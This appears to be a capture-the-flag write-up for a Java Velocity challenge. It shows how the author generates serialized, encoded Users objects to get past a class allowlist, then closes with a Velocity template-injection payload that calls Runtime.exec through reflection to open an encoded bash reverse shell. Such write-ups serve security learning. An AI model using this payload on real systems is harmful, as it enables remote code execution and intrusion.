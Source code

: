 This challenge using velocity to render. So i think about **velocity SSTI**. But first it need to serialize data and then send it. So i create a place in `com.isitdtu.hihi.Users` (also bypass this filter)

```java
if (!approvedClass.contains(osc.getName())) {
            throw new InvalidClassException("Cannot deserialize this class!", osc.getName());
}
```

**Encode.java**
```java
    public static String bytesToHex(byte[] bytes) {
        StringBuilder hexString = new StringBuilder(2 * bytes.length);
        for (byte b : bytes) {
            String hex = Integer.toHexString(0xFF & b);
            if (hex.length() == 1) {
                hexString.append('0');
            }
            hexString.append(hex);
        }
        return hexString.toString();
    }
```
**MainController.java**
```java!
@PostMapping(value = "/test")
*     @ResponseBody
    public String test(@RequestParam("name") String name) throws IOException {
        Users user = new Users();
        user.setName(name);
        try {
            // Serialize the object to a byte array
            ByteArrayOutputStream byteStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOut = new ObjectOutputStream(byteStream);
            objectOut.writeObject(user);
            objectOut.close();
            byte[] serializedBytes = byteStream.toByteArray();

            // Convert serialized bytes to hex
            String hexString = Encode.bytesToHex(serializedBytes);

            // Encode hex string to Base64
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.getBytes());
            return ("Base64 encoded hex of serialized object: " + base64Encoded);
            
        } catch (IOException i) {
            i.printStackTrace();
            return "Error";
        }
    }
```
Use `mvn install` to compile into file jar and then run docker again.
And then use this payload to revshell:
```!
$date.getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("bash -c {echo,BASE_32_PAYLOAD_REVSHELL}|{base32,-d}|{bash,-i}").getInputStream()
```